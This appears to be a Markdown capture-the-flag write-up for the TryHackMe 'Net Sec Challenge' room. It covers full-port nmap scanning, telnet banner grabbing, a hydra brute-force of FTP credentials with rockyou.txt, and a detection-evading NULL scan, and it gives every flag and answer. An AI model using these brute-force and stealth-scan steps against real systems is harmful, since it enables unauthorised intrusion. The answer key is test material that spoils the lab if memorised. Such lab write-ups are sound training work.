

# Net Sec Challenge

TryHackMe room: `Net Sec Challenge`

## Room Summary

This room is a short network enumeration challenge where the main goal is to identify exposed services, collect flags from service banners, and use `hydra` against an FTP service running on a non-standard port.

The tools used in this room were:

- `nmap`
- `telnet`
- `hydra`
- `ftp`

## Task 1: Introduction

Start the target machine first. If you are solving the room from the browser, deploy the AttackBox as well.

## Task 2: Challenge Questions

### Step 1: Full Port Scan

The first thing I did was scan all TCP ports because the room asks about open ports and hidden services.

```bash
nmap -p-  MACHINE_IP
```

Explanation:

- `-p-` scans all ports

From the scan results, there are `6` open TCP ports. The highest open port below `10000` is:

```text
8080
```

Screenshot placeholder:





### Step 2: HTTP Header Flag

To grab the flag hidden in the HTTP server header, I connected to port `80` with `telnet`.

```bash
telnet MACHINE_IP 80
```

After connecting, I requested the page and checked the returned headers.

Flag:

```text
THM{web_server_25352}
```


### Step 3: SSH Banner Flag

The next flag is hidden in the SSH service banner, so I connected to port `22`.

```bash
telnet MACHINE_IP 22
```

This reveals the SSH banner and the hidden flag.

Flag:

```text
THM{946219583339}
```


### Step 4: FTP Service Version

The room includes an FTP server on a non-standard port: `10021`.

To identify the service version, I checked that port directly.

```bash
telnet MACHINE_IP 10021
```

The FTP version is:

```text
vsftpd 3.0.3
```


### Step 5: Brute-Force FTP Credentials

The room gives two usernames through social engineering:

- `eddie`
- `quinn`

I saved them into a file:

```bash
printf "eddie\nquinn\n" > users.txt
```

Then I used `hydra` with `rockyou.txt` to find the passwords.

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ftp://MACHINE_IP:10021
```

Explanation:

- `-L` loads usernames from a file
- `-P` loads passwords from a file

After getting valid credentials, I logged in to the FTP service and checked the user files for the flag.

```bash
ftp MACHINE_IP 10021
```

Flag:

```text
THM{321452667098}
```


### Step 6: Port 8080 Challenge

The last part of the room is available on:

```text
http://MACHINE_IP:8080
```

The page hints that the scan should be as quiet as possible. To reduce the chance of detection, I used a NULL scan:

```bash
nmap -sN MACHINE_IP
```

This worked for the challenge and returned the final flag.

Flag:

```text
THM{f7443f99}
```


## Answers

1. Highest port number open less than `10000`: `8080`
2. Number of open TCP ports: `6`
3. Flag hidden in the HTTP server header: `THM{web_server_25352}`
4. Flag hidden in the SSH server header: `THM{946219583339}`
5. FTP server version: `vsftpd 3.0.3`
6. Flag in one of the FTP account files: `THM{321452667098}`
7. Final flag from the port `8080` challenge: `THM{f7443f99}`

## Final Notes

This room is a good beginner practice lab for:

- full-port scanning
- banner grabbing
- identifying services on unusual ports
- brute-forcing FTP with `hydra`
- using a quiet scan type like `nmap -sN`

If you want, I can also make this writeup look cleaner by adding image links, a table of answers, and a more polished Markdown style for GitHub.
